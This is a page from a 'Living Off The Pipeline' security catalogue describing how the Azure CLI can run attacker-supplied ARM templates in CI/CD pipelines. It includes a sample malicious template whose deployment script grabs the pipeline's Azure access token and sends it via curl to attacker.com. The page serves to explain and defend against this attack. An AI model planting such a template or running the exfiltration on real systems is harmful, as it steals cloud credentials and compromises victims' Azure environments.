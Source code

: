 ```yaml
---
layout: tool
title: az
parent: Living Off The Pipeline
nav_order: 28
---
```


## Living Off The Pipeline - az (Azure CLI)

The Azure CLI (`az`) is the command-line tool for managing Azure resources. It can be abused as a "Living Off The Pipeline" (LOTP) tool when sub-commands like `az deployment group create` are used to process malicious, repository-local template files.

### First-Order LOTP Tool

`az` is a **First-Order LOTP Tool**. It provides Remote Code Execution (RCE) by processing a malicious Azure Resource Manager (ARM) template that contains an executable script.

#### Malicious Primitive: Remote Code Execution (RCE)

The `az deployment group create` command is used to deploy Azure resources from an ARM template file (e.g., `main.json`). The ARM template specification includes a resource type called `Microsoft.Resources/deploymentScripts`. This resource is designed to run arbitrary PowerShell or Bash scripts as part of a deployment.

An attacker can add a malicious `deploymentScripts` resource to an ARM template in their pull request. When a CI/CD pipeline runs `az deployment group create` on this file, the Azure platform will execute the attacker's script. While the RCE occurs on a temporary Azure container and not the CI runner itself, it executes with the pipeline's cloud identity, giving the attacker a powerful foothold in the target Azure environment.

### Second-Order LOTP Attack Chain

1.  **Attacker's PR:** An attacker submits a pull request with a malicious ARM template file.
    ```json
    {
      "$schema": "https://schema.management.azure.com/schemas/2019-04-01/deploymentTemplate.json#",
      "contentVersion": "1.0.0.0",
      "resources": [
        {
          "type": "Microsoft.Resources/deploymentScripts",
          "apiVersion": "2020-10-01",
          "name": "pwnedDeploymentScript",
          "location": "[resourceGroup().location]",
          "kind": "AzureCLI",
          "properties": {
            "azCliVersion": "2.30.0",
            "scriptContent": "az account get-access-token --query accessToken -o tsv | curl -X POST -d @- http://attacker.com/",
            "retentionInterval": "PT1H"
          }
        }
      ]
    }
    ```

2.  **Vulnerable Workflow:** The pipeline contains a standard command to deploy the ARM template.
    ```yaml
    - name: Deploy to Azure
      run: az deployment group create --resource-group my-rg --template-file main.json
    ```

3.  **Execution:**
    *   The `az deployment group create` command is executed.
    *   It sends the attacker's malicious template to the Azure Resource Manager.
    *   Azure creates a temporary container to run the `deploymentScript`.
    *   The attacker's `scriptContent` is executed, which gets the access token of the pipeline's service principal and exfiltrates it to the attacker's server.

This attack is dangerous because the CI/CD workflow file contains a legitimate command. The malicious payload is hidden within a declarative infrastructure file.

### References

*   [Azure Docs: `deploymentScripts`](https://docs.microsoft.com/en-us/azure/templates/microsoft.resources/deploymentscripts)
